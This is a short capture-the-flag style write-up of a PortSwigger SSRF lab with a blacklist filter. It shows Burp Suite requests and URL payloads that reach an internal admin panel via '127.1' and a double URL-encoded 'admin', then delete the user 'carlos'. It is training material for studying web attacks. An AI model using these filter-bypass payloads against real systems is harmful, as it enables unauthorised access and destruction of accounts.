 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
sidebar_position: 4
---
```


> https://portswigger.net/web-security/ssrf/lab-ssrf-with-blacklist-filter

![[1 100.png]]

Let's check out the stock.

![[2 105.png]]

We can intercept the request using Burpsuite.

![[3 83.png]]

Let's send the request to the `Repeater`.
We can set the `stockApi` field to the following and send the request:

```
http://localhost/admin
```

![[4 70.png]]

So that request is blocked.
Let's send the following request:

```
http://127.1/
```


That returns a valid response.

Let's try visiting the `/admin` page.

```
http://127.1/admin
```

![7](https://github.com/Knign/Write-ups/assets/110326359/633f6f33-c540-4095-82c3-d85daef9a2db)

Looks like the `admin` keyword is being pattern-matched and blocked.
We can get around it by double URL encoding the string.

![10](https://github.com/Knign/Write-ups/assets/110326359/0e9aa7c9-05f8-419d-b4a2-5a5ea6c13a4e)

Let's now send the following request:

```
http://127.1/%25%36%31%25%36%34%25%36%64%25%36%39%25%36%65
```

![9](https://github.com/Knign/Write-ups/assets/110326359/099a7a29-fd61-4e3b-a3f8-55fc2fd3ecc3)

We can now delete the `carlos` user.

```
http://127.1/%25%36%31%25%36%34%25%36%64%25%36%39%25%36%65/delete?username=carlos
```

![11](https://github.com/Knign/Write-ups/assets/110326359/54f70884-0935-4b68-be82-03928025b356)

We have solved the lab.

![12](https://github.com/Knign/Write-ups/assets/110326359/88b224e6-d665-415a-85a4-1ec27f3f5fae)
